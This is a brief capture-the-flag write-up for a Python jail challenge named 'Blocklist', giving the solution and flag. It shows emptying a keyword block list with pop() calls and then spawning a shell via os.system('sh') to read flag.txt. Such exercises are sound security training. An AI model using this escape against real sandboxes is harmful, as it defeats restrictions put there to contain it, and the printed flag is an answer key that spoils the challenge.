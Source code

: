 ### (PWN) Blocklist
Whoops! You were caught stealing and are taken to jail. Can you get out?

### Solution
Clear all values in the ‘blocklist’ with `[blocklist.pop() for i in range(len(blocklist))]` then you can import os;os.system('sh') and `cat flag.txt`

### Flag
CTF{p0p_0ut_0f_j41l}
